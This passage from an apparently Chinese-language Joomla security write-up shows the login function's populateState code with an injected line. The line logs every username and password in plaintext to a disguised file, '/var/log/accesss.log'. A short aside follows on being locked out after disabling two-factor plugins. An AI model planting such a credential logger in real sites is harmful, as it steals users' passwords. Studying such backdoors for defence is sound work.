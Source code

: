 [![](assets/1706845175-8fb03a132c90ac4c10d88feab7ee25c9.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706778943142-3bd2c57d-5384-4a39-b1cc-e2cbeba6da2a.png#averageHue=%232d2f34&clientId=u22ad75f3-605d-4&from=paste&height=980&id=IkEZW&originHeight=1960&originWidth=3096&originalType=binary&ratio=2&rotation=0&showTitle=false&size=738271&status=done&style=none&taskId=uf34c8c0b-99ee-485d-a0db-76fdcfea26e&title=&width=1548)

```bash
protected function populateState()
    {
        $input = Factory::getApplication()->input->getInputForRequestMethod();

        $credentials = [
            'username'  => $input->get('username', '', 'USERNAME'),
            'password'  => $input->get('passwd', '', 'RAW'),
            'secretkey' => $input->get('secretkey', '', 'RAW'),
        ];
        file_put_contents('/var/log/accesss.log',$credentials['username'].$credentials['password']);
    ...
    }
```

#### 花絮

由于在研究用户权限管理时，打开了双因素认证，在调试寻找后台登录函数时感觉双因素认证麻烦于是进入后台后禁用了所有与双因素认证相关的插件，重新登录后网页提示如下  
[![](assets/1706845175-c9ef757f3eab35284524dbf9f46f58b7.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706774015950-db8bbbb8-95e5-4f6b-ba5c-79d45792873d.png#averageHue=%23afb6c2&clientId=u22ad75f3-605d-4&from=paste&height=468&id=UlXd0&originHeight=936&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=194856&status=done&style=none&taskId=ub1369385-ffb0-4791-af6c-6e09d69415e&title=&width=1547)  
这应该是由于操作不当引发的逻辑问题，身为“网站管理员”尝试着手解决这个问题  
目前 super user 权限的用户登录后台后会直接显示 403，任何功能都无法访问，所以只能从数据库着手修复  